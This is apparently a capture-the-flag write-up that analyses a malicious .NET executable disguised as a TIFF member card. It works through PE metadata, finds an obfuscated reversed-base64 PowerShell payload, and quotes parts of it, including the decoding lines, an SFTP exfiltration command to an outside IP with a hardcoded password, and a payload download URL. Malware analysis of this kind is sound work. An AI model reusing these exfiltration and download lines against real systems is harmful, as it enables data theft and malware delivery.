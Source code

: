 # HeartBreaker Continuum

- Anslyzing the file binary given to us.
```sh
file Superstar_MemberCard.tiff.exe 
Superstar_MemberCard.tiff.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 section
```
- We can see that it's a 32 bit Portable Executable, the second question asks about the file creation date as per the metadata. For doing so we can use **readpe**.
```sh
readpe  can  read  and  display all PE file headers, fields and values. It's part of pev, the PE file analysis toolkit.
readpe Superstar_MemberCard.tiff.exe
DOS Header
    Magic number:                    0x5a4d (MZ)
    Bytes in last page:              144
    Pages in file:                   3
    Relocations:                     0
    Size of header in paragraphs:    4
    Minimum extra paragraphs:        0
    Maximum extra paragraphs:        65535
    Initial (relative) SS value:     0
    Initial SP value:                0xb8
    Initial IP value:                0
    Initial (relative) CS value:     0
    Address of relocation table:     0x40
    Overlay number:                  0
    OEM identifier:                  0
    OEM information:                 0
    PE header offset:                0x80
COFF/File header
    Machine:                         0x14c IMAGE_FILE_MACHINE_I386
    Number of sections:              3
    Date/time stamp:                 1710326286 (Wed, 13 Mar 2024 10:38:06 UTC)
    Symbol Table offset:             0
    Number of symbols:               0
    Size of optional header:         0xe0
    Characteristics:                 0x102
```

- Third question asks us about byte size of the code in the binary, the response of readpe provides this as well.
```sh
Sections
    Section
        Name:                            .text
        Virtual Size:                    0x9514 (38164 bytes)
        Virtual Address:                 0x2000
        Size Of Raw Data:                0x9600 (38400 bytes)
        Pointer To Raw Data:             0x200
        Number Of Relocations:           0
        Characteristics:                 0x60000020
        Characteristic Names
                                             IMAGE_SCN_CNT_CODE
                                             IMAGE_SCN_MEM_EXECUTE
                                             IMAGE_SCN_MEM_READ
```

- The next tasks asks us to identify the original name of the binary, for this we might be able to pull some information from the binary using strings functionality.
- Our next task is to get the hexadecimal offset where the obfunscated code of the original file begins. For this purpose we'll see the content using hexdump and try to identify the offset. We know that the code is obfuscated so we have to look for term which dictates the starting of obfuscated code. For there that term is `sCrt`
```sh
00002c70  36 1e 00 00 24 73 43 72  74 20 3d 20 22 3d 3d 67  |6...$sCrt = "==g|
00002c80  43 4e 55 32 59 79 39 6d  52 74 41 53 5a 7a 4a 58  |CNU2Yy9mRtASZzJX|
00002c90  64 6a 56 6d 55 74 41 69  63 70 52 45 64 6c 64 6d  |djVmUtAicpREdldm|
00002ca0  63 68 52 48 4a 67 67 47  64 68 42 56 4c 67 30 57  |chRHJggGdhBVLg0W|
```
- From the above we can see that the starting of this is 4 byte from the offset so 2C74.
- For the next question we have to speicy which encoding the threat actor used for concealing the plain text script. From the output of strings we can see that *Reverse* method has been used for getting the enc from the sCrt. From by looking at the encoded string we can see double equals at end which do dictates that it's a base64 encoding and apart from this the next statement uses *fRoMbASe64sTrInG*.
```sh
enC = $sCrt.ToCharArray() ; [array]::Reverse($enC) ; -join $enC 2>&1> $null ;
$bOom = [sYsTeM.tExT.eNcOdInG]::uTf8.GeTsTrInG([sYsTeM.cOnVeRt]::fRoMbASe64sTrInG("$enC")) ;
```
- Now we have to get the plain text code for further analysis for doing so we can either uuse cyber chef with two methods Reverse and then from Base64 or if we want to do locally
```sh
python
str = "paste-the-encoded-string-here"
str = str[::-1]

echo "str-value-from-above" | base64 -d > decoded.txt
```
- We are asked for cmdlets which initiate file download, cmdlets are native PowerShell commands, and the one used here is *Invoke-WebRequest*.
- Next we have to identify network-related activities going on, from the code we got we can see that first there is a SFTP connection that is being opened, and after that we can see that the attacker has given a href for Superstar_MemberCard.tiff.exe.
```
open sftp://service:M8&C!i6KkmGL1-#@35.169.66.138/ -hostkey=*
http://44.206.187.144:9000/Superstar_MemberCard.tiff.exe
```
- Next we have to get the staging directory which is mentioned as a string variable under variable name `targetDir = "C:\Users\Public\Public Files"`.
- Our next task is to identify MITRE ID for the technique used to autonomously gather data. We can just search this same term and we get T1119 ID which explains how attackers can gather internal data in automated way using Command and Scripting Interpreter.
- The last task is to get the password for exfiltration of the files collected. This we can see from the sftp connection.

- While working with a windows based environment we can use PEStudio for the tasks we did using readpe and strings.

**Completed**

